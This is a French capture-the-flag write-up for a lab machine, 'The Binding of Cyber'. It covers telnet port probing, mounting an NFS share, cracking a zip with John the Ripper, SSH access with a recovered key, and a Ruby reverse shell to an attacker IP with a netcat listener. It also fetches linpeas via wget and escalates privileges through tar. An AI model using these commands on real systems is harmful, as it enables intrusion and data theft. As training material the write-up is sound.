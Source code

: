# The Binding of Cyber 🔳🔳🔳

## Récupération du `flag.txt`

**N'oubliez pas de changer _target_ par l'ip de la machine cible !**

> EPI{4ch13V3M3N7_7R0Phy_90lD3n_90d}

- Création du script `telnet.sh`

```bash
#!/bin/bash
for ((port=50; port <= 65; port++)); do
    (echo -e "\n"; sleep 1) | telnet <target> $port  2>/dev/null | sed -n '/^550 /p' | cut -d " " -f 3
done
```

- Lancement du script

```bash
chmod +x telnet.sh
bash telnet.sh
```

- La sortie attendue est la suivante

![alt text](images/assci.png)

- On curl le port `23456` grâce à telnet

```bash
telnet <target> 23456
```

![alt text](images/telnet.png)

On en déduit qu'il sagit d'un partage `nfs`.

- Récupération des partages `nfs` de la cible

```bash
showmount -e <target>
```

![alt text](images/showmount.png)

- On monte le partage sur notre machine

```bash
mkdir /mnt/nfs
mount -t nfs <target>:/home/nfs /mnt/nfs -nolock
```

- On récupère le fichier `zip` nommé `chest.zip`

```bash
cp /mnt/nfs/chest.zip .
```

- Récupération du contenu du fichier

Les fichiers archivés sont chiffrés il faut alors procédemment à un bruteforce sur le fichier afin de retrouver le mot de passe.

Pour ma part j'ai utilisé [`John the Ripper`](https://www.openwall.com/john/) couplé à une `wordlist` présente dans les outils de la machine virtuelle.

> isaaciscrazy

```bash
sudo apt-get install john
zip2john chest.zip > zip_hash.txt
john --wordlist=/root/Desktop/Tools/wordlists/rockyou.txt zip_hash.txt
```

![alt text](images/john.png)

- Récupération du flag

```bash
unzip chest.zip # Put the password `isaaciscrazy`
cat home/isaac/.ssh/flag.txt
```

> `EPI{4ch13V3M3N7_7R0Phy_90lD3n_90d}`.

## Récupération du `user.txt`

> EPI{4Ch13V3m3N7_7r0pHy_Pl471NUm_90D}

On regarde le contenu du fichier `hint.txt` provenant du fichier zip.

```
cat home/isaac/.ssh/hint.txt
5000-6500
```

En faisant un telnet sur les ports dans la range `5000-6500`, on observe que le port `5555` renvoie quelque chose relatif à une connexion `ssh`. On utilise alors la clé rsa privée provenant du fichier zip pour se connecter au port 5555, comme ci-dessous.

```bash
ssh -p 5555 -i id_rsa isaac@<target>
```

On atterit dans un terminal ruby, de ce fait on peut utiliser la méthode `exec`.

```
exec('ls')
```

On voit que le fichier `user.txt` est dans le dossier actuel.

```
exec ('cat user.txt)
```

The output will be `EPI{4Ch13V3m3N7_7r0pHy_Pl471NUm_90D}`.

## Récupération du `root.txt`

> EPI{4Ch13v3m3n7_7R0pHy_7H3_r44l_pl471Num_90d}

On a accès à la machine cible mais que dans un terminal Ruby, donc tout d'abord on essaie de trouver comment sortir du shell ruby

Pour cela on pense au reverse shell

Sur la machine cible :

```require 'socket'
host = 'YOUR_LOCAL_IP'  # Replace with your local machine's IP address
port = 4444
s = TCPSocket.new(host, port)
while (cmd = s.gets)
  IO.popen(cmd, 'r') do |io|
    s.print io.read
  end
end
```

Sur sa machine locale:
`nc -lvnp 4444`

(plus rapide avec exec('/bin/bash') )

![01](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/145432284/8afcfab2-6078-4a24-a6ca-08edf17bdd6a)

Une fois la connexion établie on cherche la suite

On pense alors à linpeas pour chercher les vulnérabilités qu'on va télécharger sur la VM pour ça on le télécharge depuis sa machine distant avec

dans /tmp pour avoir les droits d'écriture
`wget http://[IP]:1234/linpeas.sh`

et sur sa machine locale

`python3 -m http.server 1234`

![02](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/145432284/b2f09a31-8c45-4578-b684-34f5d80d6ca0)

Puis en checkant dans linpeas on trouve une faille intéressante avec tar qui a tout les droits

![03](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/145432284/b193dc66-0a3f-4829-84f1-65cab0da9c95)
![04](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/145432284/c509e154-ebd4-4db6-9b06-2b7ad270cc83)

Donc avec ça on archive donc /root avec tar

![05](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/145432284/d2df59a7-8733-4d0b-b71d-2e7caea36e62)

Puis on le décompresse avec encore tar
Enfin plus qu'à faire `cat /root/root.txt`.

![06](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/145432284/3811799a-0cea-4d83-a583-0e049821e7ac)
